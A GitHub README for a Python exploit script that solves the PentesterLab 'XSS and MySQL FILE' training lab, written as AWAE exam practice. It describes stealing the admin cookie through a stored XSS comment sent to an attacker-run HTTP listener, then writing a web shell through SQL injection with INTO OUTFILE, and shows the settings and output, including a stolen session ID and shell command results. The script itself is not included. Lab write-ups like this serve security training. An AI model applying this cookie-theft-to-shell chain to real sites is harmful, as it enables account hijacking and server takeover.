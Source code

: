 Single click python solution for the XSS and MySQL pentesterlab challenge.


## Notes
Since we are suppose to provide a single script exploit for the AWAE exam machines so I thought it would be good practice to try and exploit this with a single python script.
The script first posts a comment using the postComment() function which contains the xss exploit it then listens on an HTTP server when it receives the cookie in the GET request it parses it and then uses that to inject a shell using the Admin edit feature using sqli.
I've used the INTO OUTFILE approach here with the data encoded in hex 

**How to use**

Change the following 3 things in the script according to your env
```python
attackerIP      =   "192.168.xx.xx"  # IP to start HTTP server on
attackerPort    =   8082            # Port to start HTTP server on to catch cookie
victimIP        =   "192.168.xx.xx"   # IP of challenge
```

Then simply run and you'll get the results

```python
$ python exploit.py
The comment has been posted
[+] Server has been started
192.168.xx.xx - - [01/ABC/20xx 01:42:03] "GET /?cookie=PHPSESSID=f0549dnc7q5aoup3vvqtndunh0 HTTP/1.1" 200 -
Got admin Cookie: f0549dnc7q5aoup3vvqtndunh0
Starting Shell process
[*]Injection successful
[*] Shell has been Injected
1       uid=33(www-data) gid=33(www-data) groups=33(www-data)
        3       4
```





## Links

- https://pentesterlab.com/exercises/xss_and_mysql_file/course
- https://pentesterlab.com/exercises/xss_and_mysql_file/iso
